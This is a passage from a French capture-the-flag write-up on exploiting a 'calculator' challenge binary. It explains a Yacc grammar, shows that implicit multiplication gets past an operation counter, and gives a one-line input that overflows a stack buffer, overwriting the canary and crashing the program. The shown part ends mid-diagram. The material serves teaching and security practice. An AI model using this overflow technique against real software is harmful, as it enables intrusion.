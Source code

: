 Les nodes retournées par ces fonctions font donc partie de la liste chainée représentant nos ASTs, seules les nodes retournés par la fonction node_new sont associées à un id dans les deux buffers. En regardant attentivement comment Yacc parse notre expression on voit ceci:

```text
expression  : expression PLUS expression    { $$ = node_new(NODE_PLUS, $1, $3); }
            | expression MINUS expression   { $$ = node_new(NODE_MINUS, $1, $3); }
            | expression TIMES expression   { $$ = node_new(NODE_TIMES, $1, $3); }
            | expression DIVIDE expression  { $$ = node_new(NODE_DIVIDE, $1, $3); }
            | MINUS expression %prec NEG    { $$ = node_new(NODE_MINUS, node_new_number(0), $2); }
            | expression POWER expression   { $$ = node_new(NODE_POWER, $1, $3); }
            | factor                        { $$ = $1; }
            ;

factor  : NUMBER            { $$ = node_new_number($1); }
        | NUMBER purefactor { $$ = node_new(NODE_TIMES, node_new_number($1), $2); }
        | purefactor        { $$ = $1; }
        ;

purefactor  : LPARENTHESIS expression RPARENTHESIS            { $$ = $2; }
            | LPARENTHESIS expression RPARENTHESIS purefactor { $$ = node_new(NODE_TIMES, $2, $4); }
            ;
```

Il y'a deux manières de faire un produit, soit avec l'expression `<expression_0> * <expression_1>`, mais il est aussi possible de faire: `<expression_0> (<expression_1>)`. Or la fonction count_ops ne prend pas en compte cette dernière manière étant donné qu'il ne fait que compter les symboles `+,-,*,/,**`, si l'on essaie d'envoyer une expression constituée de 17 produits comme celle ci:

```bash
challenger@6131181ffae8:~$ printf '1(1(1(1(1(1(1(1(1(1(1(1(1(1(1(1(1(1)))))))))))))))))' | calculator
>> 

================================================
Shadow exception triggered!
(Conveniently handled as an illegal instruction)

The current dark page is 0x0000004000955000
The current dark offset is 0x8
================================================

Illegal instruction (core dumped)
```

On a bien réussi à overflow la stack. Plus précisément on a écrasé les 8 octets qui suivaient le buffer results qui correspondent au canary, au moment de retourner, le programme va donc appeller la fonction `__stack_chk_fail` qui comporte une instruction `jalr` à un endroit et c'est ce qui a déclenché l'exception, voilà un schéma:

```goat


                  Stack avant l'overflow
                  -------------------------------
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | <-- Tableau "completed"
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
  0                                                             15

+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | <-- Tableau "results"
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 16                                                          143

+--------------------+--------------+---------+
```